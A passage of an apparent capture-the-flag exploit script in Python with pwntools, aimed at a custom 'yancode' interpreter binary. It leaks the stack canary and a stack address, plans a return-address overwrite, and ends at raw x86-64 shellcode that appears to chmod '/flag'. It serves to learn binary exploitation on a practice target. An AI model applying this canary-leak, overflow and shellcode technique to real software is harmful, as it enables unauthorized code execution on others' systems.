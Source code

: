 ```python
    buffer += write_register(Regs.a, value=0)  # stdin
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.READ_MEM, out_reg=Regs.a)
    return buffer

def write_stdout_from_memory(offset, count):
    buffer = b''
    buffer += write_register(Regs.a, value=1)  # stdout
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.WRITE_MEM, out_reg=Regs.a)
    return buffer

def force_crash():
    buffer = b''
    buffer += syscall(Syscalls.OPEN, out_reg=Regs.a)
    return buffer

def leak_stack_content(p, count):
    # Get rid off junk
    p.readuntil(b'Please input your yancode:')  
    p.readuntil(b'Starting interpreter loop! Good luck!')
    
    while True:
        data = p.readline()
        if not data.startswith(b'[') and len(data) > count:
            canary_bytes = data[0x18: 0x20]
            canary = struct.unpack('<Q', canary_bytes)[0]
            assert(canary & 0x00000000000000ff == 0)

            stack_leak_bytes = data[0x38: 0x40]
            stack_leak = struct.unpack('<Q', stack_leak_bytes)[0]

            break
    

    return stack_leak, canary

def exploit():
    p = process(BINARY)
    # p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)

    read_count = 0x40
    buf_0 = b''
    buf_0 += write_stdout_from_memory(offset=0xf0, count=read_count)

    write_count = 0xff
    buf_1 = b''
    buf_1 += read_stdin_to_memory(offset=0xf0, count=write_count)

    yan_buf = buf_0 + buf_1
    p.send(yan_buf)

    stack_leak, canary = leak_stack_content(p, count=read_count)
    shellcode_addr = stack_leak - 0xb0
    print(f'Shellcode Addr:{hex(shellcode_addr)} Canary:{hex(canary)}')

    # Cause termination of the interpreter loop by setting mem[1029] to 0xff.
    # Pad, and overwrite the return address back to the stack
    shellcode = b"\x48\xBB\x2F\x66\x6C\x61\x67\x00\x00\x00\x53\x48\xC7\xC0\x5A\x00\x00\x00\x48\x89\xE7\x48\xC7\xC6\x77\x07\x00\x00\x0F\x05"
```